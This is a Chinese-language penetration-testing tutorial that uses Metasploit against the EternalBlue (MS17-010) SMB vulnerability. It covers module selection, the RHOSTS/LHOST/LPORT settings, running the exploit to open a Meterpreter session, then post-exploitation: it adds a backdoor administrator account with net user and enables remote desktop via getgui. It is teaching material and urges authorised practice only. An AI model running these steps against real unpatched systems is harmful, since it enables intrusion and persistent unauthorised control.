# Kali渗透教程：P4：3. Kali Metasploit使用规则

## 概述
在本节课中，我们将学习如何使用Kali Linux中的Metasploit框架对一个已知漏洞进行渗透测试。我们将以著名的“永恒之蓝”漏洞为例，演示从选择模块、配置参数到成功攻击并执行后渗透操作的完整流程。通过这个实例，你将掌握Metasploit的基本使用规则。

## 永恒之蓝漏洞简介
上一节我们介绍了Metasploit的基本概念，本节中我们来看看如何用它进行实际攻击。在开始攻击之前，首先需要了解一个广为人知的漏洞——“永恒之蓝”。

这个漏洞是微软Windows操作系统在2017年爆出的一个重大安全漏洞。当时所有的Windows操作系统均受此漏洞影响。境外黑客组织利用此漏洞制作了勒索病毒，导致全球许多学校、政府机构及公司中招，文件被加密，需支付比特币才能解密。



讲解这个漏洞的原因是，它是学习Metasploit必须掌握的经典案例。如果你的电脑是2017年之前的版本且未安装补丁，就可能存在此漏洞。该漏洞存在于Windows 10早期版本、Win8、Win7等操作系统中。

## Metasploit攻击流程演示
下面我们将实际演示如何使用Metasploit攻击存在永恒之蓝漏洞的目标。





### 第一步：使用攻击模块
攻击的第一步是选择并加载对应的攻击模块。



在Metasploit中，使用 `use` 命令加上模块名称来加载模块。针对永恒之蓝漏洞，我们使用的模块是：
```
use exploit/windows/smb/ms17_010_eternalblue
```
*   `exploit/windows/smb/` 表示这是一个针对Windows系统SMB服务的攻击模块。
*   `ms17_010` 是微软官方给此漏洞的编号，代表2017年的第10号漏洞。
*   `eternalblue` 即“永恒之蓝”。



### 第二步：查看与配置模块选项
成功加载模块后，下一步是配置攻击所需的参数。

以下是查看当前模块可配置选项的方法：
```
show options
```
执行此命令后，会列出所有配置项。其中，`Required` 列为 `yes` 的项是**必填选项**，必须进行设置；如果为 `no`，则是可选配置。



现在，我们来逐一配置必填选项。



以下是需要配置的核心选项列表：

1.  **RHOSTS (目标地址)**
    *   **描述**：这是你要攻击的目标的IP地址。它是在互联网或网络中的唯一标识。
    *   **设置方法**：`set RHOSTS <目标IP地址>`
    *   **示例**：`set RHOSTS 192.168.1.128` (此处为示例，请替换为你的测试目标IP)

2.  **PAYLOAD (攻击载荷)**
    *   **描述**：攻击成功后你想执行的操作，例如获取Shell、添加用户等。Metasploit通常会为模块设置一个默认的Payload，因此大多数情况下无需手动设置。

3.  **LHOST (监听地址)**
    *   **描述**：这是你（攻击者）Kali机器的IP地址，用于接收来自目标的连接。
    *   **设置方法**：`set LHOST <你的Kali IP地址>`
    *   **如何查看Kali IP**：在终端输入 `ifconfig` 或 `ip addr` 命令查看。
    *   **示例**：`set LHOST 192.168.1.136`

4.  **LPORT (监听端口)**
    *   **描述**：在Kali机器上开启的、用于接收连接的端口号（范围1-65535）。建议选择1024以上的端口，避免与系统服务冲突。
    *   **设置方法**：`set LPORT <端口号>`
    *   **示例**：`set LPORT 12345`

配置完成后，可以再次输入 `show options` 检查所有必填项是否已正确设置。

### 第三步：执行攻击
所有选项配置完毕后，即可运行攻击。

执行攻击的命令非常简单：
```
run
```
或者
```
exploit
```
输入命令后，Metasploit会自动对目标发起永恒之蓝漏洞攻击。如果目标存在漏洞且配置正确，攻击将在很短时间内成功。



攻击成功后，你会看到 `Meterpreter session opened` 的提示，并进入一个 `meterpreter >` 的命令行环境。这标志着我们已经成功控制了目标机器。



## 后渗透操作示例：Meterpreter的使用
上一节我们完成了攻击，成功进入了Meterpreter会话。本节中我们来看看Meterpreter能做什么。

Meterpreter是Metasploit强大的**后渗透工具**。所谓“后渗透”，就是在成功入侵目标后进行的各种操作，例如：执行命令、上传/下载文件、获取密码、开启摄像头、创建用户等。这些操作在Meterpreter中通常只需简单的命令即可完成。



如果你不熟悉Meterpreter命令，可以随时输入 `help` 查看帮助文档。

下面我们演示一个简单的后渗透操作组合：**在目标机器上创建后门用户，并开启远程桌面连接**。





1.  **获取系统Shell**
    首先，我们进入目标机器的命令行环境。
    ```
    shell
    ```
    执行后，你会进入目标Windows系统的命令提示符（CMD）。这意味着你可以直接在该机器上执行命令。



2.  **创建后门用户**
    在获取的Shell中，使用Windows命令添加一个管理员用户。
    ```
    net user zhangsan 123456 /add && net localgroup administrators zhangsan /add
    ```
    *   这条命令创建了一个用户名为 `zhangsan`，密码为 `123456` 的用户，并将其添加到管理员组。



3.  **返回Meterpreter**
    用户创建完成后，退出Shell，回到Meterpreter环境。
    ```
    exit
    ```

4.  **开启目标远程桌面服务**
    现在，我们想远程连接到目标的图形化界面。Meterpreter提供了便捷的命令来开启远程桌面服务。
    ```
    run getgui -e
    ```
    *   `run getgui` 是运行“获取图形界面”的脚本。
    *   `-e` 参数代表 `enable`，即开启远程桌面服务。
    执行此命令后，目标机器的远程桌面功能将被启用。



5.  **连接远程桌面**
    在你的攻击机（或其他Windows机器）上，打开“远程桌面连接”工具。
    *   输入目标机器的IP地址（即之前设置的RHOSTS）。
    *   使用刚创建的用户名 `zhangsan` 和密码 `123456` 进行登录。
    如果一切顺利，你将能够看到并操作目标机器的桌面。

**重要提示**：在真实的渗透测试或安全工作中，直接使用远程桌面连接并顶替现有用户登录的方式**不推荐使用**，因为这会迫使原用户下线，极易被目标察觉，从而暴露攻击行为。



## 总结
本节课中我们一起学习了Metasploit框架的基本使用规则。我们以“永恒之蓝”漏洞为例，完整演练了渗透测试的三个核心步骤：
1.  **使用模块**：通过 `use` 命令加载特定的攻击模块。
2.  **配置选项**：使用 `show options` 查看并用 `set` 命令配置必填参数（如RHOSTS, LHOST, LPORT）。
3.  **执行攻击**：使用 `run` 或 `exploit` 命令发起攻击。



攻击成功后，我们进入了Meterpreter后渗透环境，并演示了如何通过 `shell` 命令执行系统指令，以及使用 `run getgui -e` 等Meterpreter脚本进行进一步操作。整个过程展示了Metasploit如何将复杂的漏洞利用过程简化为几个简单的命令，极大地提升了渗透测试的效率。请务必在合法授权的环境中进行练习。